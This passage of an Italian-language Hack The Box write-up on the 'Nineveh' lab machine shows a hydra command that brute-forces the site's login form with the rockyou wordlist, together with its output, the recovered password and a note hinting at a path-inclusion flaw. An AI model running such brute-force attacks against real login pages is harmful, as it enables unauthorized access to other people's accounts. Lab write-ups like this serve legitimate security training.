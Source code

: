 ```bash

username=admin&password=admin
```


Proviamo a forzare la password con hydra:

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 64
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-22 07:06:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^:Invalid Password
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-22 07:06:57

```

- -l: specifica il nome utente per essere admin.
- -P: specifica il file che contiene le password.
   http-post-form: specifica una richiesta HTTP POST. 
-  “….”: il contenuto tra virgolette specifica i parametri username/password da testare e il messaggio di login fallito.

Abbiamo delle credenziali 
admin:1q2w3e4r5t

Loggandoci  veniamo reindirizzati a http://10.10.10.43/department/manage.php  e ci troviamo davanti un immagine che ci dice ce il sito è in costruzione.

All'indirizzo http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt abbiamo questa nota:

```bash
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

Niente di tutto ciò ha molto senso a questo punto. Menzionano una cartella segreta. Forse lo troveremo durante l'enumerazione della porta 443. Una cosa da notare è che l'URL che genera la pagina sembra un percorso di file.
